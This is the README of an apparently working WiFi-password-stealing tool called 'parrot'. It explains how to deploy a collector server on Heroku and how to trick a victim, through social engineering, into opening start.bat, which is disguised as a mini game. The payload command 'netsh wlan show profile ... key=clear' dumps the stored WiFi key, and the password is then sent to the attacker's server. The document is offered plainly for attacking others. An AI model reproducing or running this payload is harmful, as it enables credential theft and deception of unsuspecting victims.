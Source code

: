 # parrot wiifi hacking tool
this is a simple payload that sends the password of a known wifi  to rouge sever.
# requirements
node.js https://nodejs.org/en/download/  
heroku account https://signup.heroku.com/  
heroku cli https://devcenter.heroku.com/articles/heroku-cli#download-and-install  

# usage
git clone https://github.com/ba5liel/parrot.git
cd parrot  
heroku login  
git push -u heroku  
send the payload.zip to victim using any social engineering techniques. and make sure the victim opens the start.bat file  
now you can see the password at [yourapp].heroku.com  
# payload
this include a mini game that launches when start.bat is opened.  
you must change the start.bat in the payload    

netsh wlan show profile "victim wifi name here" key=clear > bin\log.txt  

#enjoy
